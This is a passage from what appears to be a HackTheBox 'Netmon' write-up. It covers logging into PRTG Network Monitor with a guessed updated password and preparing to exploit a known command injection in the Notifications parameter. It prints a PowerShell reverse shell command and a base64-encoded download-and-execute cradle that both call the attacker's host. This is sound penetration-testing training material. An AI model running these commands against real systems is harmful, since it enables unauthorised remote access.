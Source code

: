 ### Attempting Login

I tried logging into the PRTG Network Monitor web interface with the found credentials. However, the login was unsuccessful as the password appeared outdated.

Since the configuration file was last saved in 2018, I modified the password to `PrTg@dmin2019` and successfully logged in:

![Successful login]({{ '/assets/img/Netmon/image%206.png' | relative_url }})

### PRTG Network Monitor Version and Privileges

Once logged in, I noted that the machine was running PRTG Network Monitor version "18.1.37.13946" with possible administrative privileges.

According to CVE details and an excellent blog post by [Codewatch](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/):

> *An issue was discovered in PRTG Network Monitor before version 18.2.39. An attacker with access to the PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability by sending malformed parameters in sensor or notification management scenarios.*

### Exploiting Command Injection Vulnerability

To exploit this, I navigated to the â€œNotificationsâ€ section under â€œAccount Settingsâ€ in the â€œSetupâ€ dropdown menu:

![Navigating to Notifications]({{ '/assets/img/Netmon/image%207.png' | relative_url }})

> ðŸ’¡ **Vulnerability Note**: An argument supplied in the â€œParameterâ€ field of the â€œNotificationsâ€ configuration is passed directly into the PowerShell script without any sanitization, allowing an attacker to inject arbitrary PowerShell code.

### Setting Up the Reverse Shell Environment

To prepare for a reverse shell, I first created the PowerShell command for establishing the connection:

```bash
â”Œâ”€â”€(kaliã‰¿kali)-[~/Red_Team/HTB]
â””â”€$ echo 'Invoke-PowershellTcp -Reverse -IPAddress 10.10.16.13 -Port 4444' >> /home/kali/Red_Team/Tools/Invoke-PowerShellTcp.ps1 
```

Next, I encoded the command to download and execute the reverse shell script, converting it to Base64 format:

```bash
â”Œâ”€â”€(kaliã‰¿kali)-[~/Red_Team/HTB]
â””â”€$ echo -n "IEX(new-object net.webclient).downloadstring('http://10.10.16.13:8080/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0
SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAMwA6ADgAMAA4ADAALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA     
```
